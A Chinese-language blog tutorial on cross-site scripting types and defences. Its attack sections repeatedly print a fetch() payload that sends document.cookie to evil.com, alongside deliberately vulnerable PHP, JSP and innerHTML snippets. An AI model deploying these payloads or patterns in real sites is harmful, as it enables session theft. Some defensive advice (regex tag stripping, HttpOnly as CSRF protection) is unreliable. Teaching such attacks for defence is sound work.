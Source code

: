 ```yaml
---
heroImage: /src/assets/images/placeholder-about.jpg
category: Security
description: 常見網頁攻擊XSS的資訊整理
pubDate: 2025-02-03T16:00:00.000Z
tags:
  - Security
  - XSS
title: ' XSS（Cross-Site Scripting，跨站腳本攻擊） 介紹與防禦方法'
---
```


XSS（跨站腳本攻擊）的核心原理是 **攻擊者設法將惡意 JavaScript 代碼注入到合法網站的 HTML 內**，使受害者的瀏覽器執行這段代碼，進而竊取Cookie、劫持Session或其他攻擊。

這通常透過以下方式達成：

1. 反射型 XSS（Reflected XSS）
2. 儲存型 XSS（Stored XSS）
3. DOM 型 XSS（DOM-based XSS）

***

## **反射型 XSS（Reflected XSS）**

最常見的 XSS 攻擊類型，攻擊者將惡意代碼嵌入 URL 或請求參數，利用社交工程釣魚的技巧，當受害者打開該連結時，網站會直接回應並執行這段代碼。

### **攻擊流程**

攻擊者構造惡意 URL，例如：

```
https://example.com/search?query=<script>alert('XSS')</script>"
```

網站回應時直接插入該參數值：

```html
<p>您搜尋的關鍵字是：<%= request.getParameter("query") %></p>
```

透過**社交工程手法**，受害者點擊該 URL，瀏覽器解析後執行惡意 JavaScript，彈出 `alert('XSS')`，或更惡意的：

攻擊者可竊取使用者的 Session Cookie，進行 **帳號劫持**。

```html
<script>
    fetch('https://evil.com/steal?cookie=' + document.cookie);
</script>
```

***

## **儲存型 XSS（Stored XSS）**

攻擊者將惡意代碼儲存到網站的資料庫，當其他用戶瀏覽時，這段代碼會自動執行。

### **攻擊流程**

攻擊者在網站的可輸入區域提交惡意代碼：

```html
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
```

網站將該內容儲存到資料庫，如：

```sql
INSERT INTO comments (user, content) VALUES ('hacker', '<script>...</script>');
```

當其他用戶瀏覽該頁面時，瀏覽器解析並執行惡意 JavaScript。

### **攻擊範例**

如果留言板程式如下：

```php
<?php
echo "<p>使用者留言：" . $_POST['comment'] . "</p>";
?>
```

攻擊者提交：

```html
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
```

當其他用戶查看留言時，這段腳本就會竊取他們的 Cookie，導致 **Session 劫持**。

***

## **DOM 型 XSS（DOM-based XSS）**

此手法和反射型 XSS一樣，都需要使用社交工程釣魚的技巧，使 User 點擊 URL 攻擊才會生效。

### **攻擊流程**

**攻擊者提供惡意的 URL**

```
https://example.com/#<script>alert('XSS')</script>
```

**網站讀取 URL 片段並插入 DOM**

```javascript
document.getElementById('result').innerHTML = location.hash;
```

**導致 JavaScript 被執行**

```html
<script>alert('XSS')</script>
```

***

## **總結 & 該如何防禦?**

| XSS 類型        | 攻擊方式                        | 防禦方法                            |
| ------------- | --------------------------- | ------------------------------- |
| **反射型 XSS**   | 透過 URL 參數傳遞惡意腳本             | HTML 轉義、CSP                     |
| **儲存型 XSS**   | 惡意腳本儲存在伺服器                  | HTML 轉義、CSP                     |
| **DOM 型 XSS** | 前端 JavaScript 操作 DOM，導致腳本執行 | 避免 `innerHTML`，使用 `textContent` |

透過正確的輸入驗證、HTML 轉義、CSP 限制等措施，可以有效防止 XSS 攻擊。

### **1. 輸入驗證與過濾**

對所有用戶輸入進行驗證和過濾，尤其是涉及 HTML 標籤或 JavaScript 的輸入。

示例：

```javascript
const sanitizeInput = (input) => {
  return input.replace(/<[^>]*>?/gm, ''); // 移除所有 HTML 標籤
};

```

### **2. 輸出編碼**

在輸出到網頁前將資料進行編碼，防止瀏覽器將其當作 HTML 或 JavaScript 執行。

避免 `innerHTML`，使用 `textContent`

示例：前端使用編碼函數

```javascript
const escapeHTML = (str) => {
  const div = document.createElement('div');
  div.appendChild(document.createTextNode(str));
  return div.innerHTML;
};
const safeOutput = escapeHTML(userInput); // 防止 XSS

```

### **3. 使用內容安全策略 (CSP)**

透過 CSP 限制瀏覽器允許的資源來源，防止惡意腳本執行。

```
Content-Security-Policy: script-src 'self';
```

### **4. 避免直接插入 HTML**

使用框架的模板引擎（如 React、Vue、Angular），這些框架會自動進行 XSS 防禦。

### 5. Cookie 設置 HttpOnly

Cookie 設置此屬性，會讓JavaScript 無法讀取 document.cookie。

此屬性需透過後端設置，通常搭配 Session Token：

```javascript
// Node.js 設置 Session 中介軟體
app.use(
  session({
    secret: "my_secret_key", // 用於加密 Session ID
    resave: false,
    saveUninitialized: false,
    cookie: {
      httpOnly: true, // 防止 JavaScript 存取，提升安全性
      secure: false, // 若是 HTTPS 需設為 true
      maxAge: 1000 * 60 * 15, // 15 分鐘
    },
  })
);
```

> 也一同防範如跨站請求格式（CSRF）攻擊，攻擊者也無法透過 JavaScript 存取和操作包含 Cookie 的敏感資訊。
